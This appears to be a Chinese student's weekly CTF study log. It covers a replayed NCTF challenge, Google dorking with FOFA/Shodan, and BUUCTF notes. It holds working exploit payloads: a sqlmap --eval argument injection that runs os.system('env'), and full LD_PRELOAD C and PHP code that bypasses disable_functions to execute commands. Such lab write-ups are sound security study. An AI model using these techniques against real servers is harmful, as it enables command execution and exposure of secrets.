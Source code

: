 # 完成事项
- buuctf刷题
- NCTF题目复现
- 信息收集
# 本周学习的知识分享


### NCTF sqlmap-master 复现
命令注入 python



[利用Python代码实现Web应用的注入](https://www.anquanke.com/post/id/84891)
[python代码注入](https://blog.csdn.net/weixin_36372146/article/details/113692122)





很显然的 subprocess.Popen, 但因为设置了 `shell=False` 导致无法利用反引号等技巧进行常规的命令注入

但是仔细观察可以发现我们还是可以控制 sqlmap 的参数, 即**参数注入**

结合 GTFOBins: [https://gtfobins.github.io/gtfobins/sqlmap/](https://gtfobins.github.io/gtfobins/sqlmap/)

通过 `--eval` 参数可以执行 Python 代码, 然后因为上面 `command.split()` 默认是按空格分隔的, 所以需要一些小技巧来绕过

注意这里参数的值不需要加上单双引号, 因为上面已经设置了 `shell=False`, 如果加上去反而代表的是 "eval 一个 Python 字符串"

最终 payload

```python
127.0.0.1:8000 --eval __import__('os').system('env')
```





## 信息收集
### 谷歌语法
详情参考：  
https://github.com/JackChan1999/DevelopmentTools/blob/master/Google/google%E6%90%9C%E7%B4%A2%E8%AF%AD%E6%B3%95.md

|语法|作用|
|---|---|
|inurl:|url中含有|
|intitle:|标题中含有|
|intext:|内容中含有|
|site:|特定网站内搜索|
|""|引号精确匹配|
|……|……|

或者直接使用**高级搜索**：  
https://www.google.com.hk/advanced_search  
### 网络空间资产测绘
https://fofa.info/   
https://www.shodan.io/    
## buuctf刷题
### 杂 
`0.0.0.0` 在 Linux 中可代替 `127.0.0.1`   
### LD_PRELOAD
[PHP禁用函数绕过](https://eastjun.top/posts/bypass_disable_function/)  	  
前提：PHP 中的 mail() 函数不被禁用  
首先在 test.c 写入如下 c代码  
```c
#include <stdlib.h>
#include <unistd.h>

uid_t getuid() { 
	unsetenv("LD_PRELOAD");
	system("whoami > /tmp/result");
	return 0;
}
```
然后生成动态链接库 test.so ：
```bash
gcc -shared -fPIC test.c -o test.so
```
写 test.php 文件  
```php
<?php
putenv("LD_PRELOAD=./test.so");
mail("","","","");
?>
```

把 test.so 和 test.php 上传，访问 test.php 即可触发代码执行  
可以在 /tmp/result 中看到命令执行的结果




